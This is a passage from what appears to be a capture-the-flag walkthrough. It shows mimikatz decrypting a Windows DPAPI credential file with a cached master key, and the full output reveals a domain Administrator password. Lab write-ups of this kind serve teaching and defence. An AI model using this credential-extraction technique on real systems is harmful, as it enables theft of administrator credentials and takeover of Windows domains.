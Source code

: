 #### Decrypt Credential

I’ll use that master key to decrypt the credential file. `mimikatz` is smart enough to use the master key that is held in memory from previous instruction, but I can also explicitly pass it with `/masterkey:b360fa5d...`

```

mimikatz # dpapi::cred /in:\users\0xdf\desktop\credentials
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {0792c32e-48a5-4fe3-8b43-d93d64590580}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : f5bbbac240bd90d9af7d3c2cfb7f301f1f123ac94d07a3cc012038135
fa5a6bc
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : f9642d323fae366a4f7293d02f26e4472adc32b00bac6a061914458da
dfd3e52
  dwDataLen          : 00000100 - 256
  pbData             : e73542ff71d08529f9da5ff88edcd5be44d11c9c02c45fdfd9ee5a531
628cb0f9e8dc221eb5b4d83a857aff13473131c927527217fe177e08d63a63eb5ce5341576b33332
806e062363e58786fb7551aaa2e0676b8e3957f43cf1f11a2ed149c431104e5f93f20364916df25a
0168ede23788bd9d71192cdb661c5c5686ed256c8691057fe6fe2a2b1765ba0979ee9140c010210e
ea81ac00830f74c35a196ac1f46bd69d7a86ca82da15f9bbcf1c40cbbe41d58d4a8924afde97e2a9
9a6e9f33a297ef2508401c229a451b911e9469ba17d71288dc6c37ee26c65ecc8accd4b5b3c0c2cc
fcae6b0a76384a0e27c4edb7a0ecece2afd9889252304db5767bbc3
  dwSignLen          : 00000040 - 64
  pbSign             : 63fcc153bcd60befd074a5098ea0e552f8809562c553985baa8720a82
8e61e05bd5d1cb8200711551a100ed3b853598b3875ba90b689bc483342fbf671b89c99

Decrypting Credential:
 * volatile cache: GUID:{0792c32e-48a5-4fe3-8b43-d93d64590580};KeyHash:bf6d0654e
f999c3ad5b09692944da3c0d0b68afe
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000f4 - 244
  credUnk0       : 00002004 - 8196

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 8/22/2018 9:18:49 PM
  unkFlagsOrSize : 00000038 - 56
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=ACCESS\Administrator
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : ACCESS\Administrator
  CredentialBlob : 55Acc3ssS3cur1ty@megacorp
```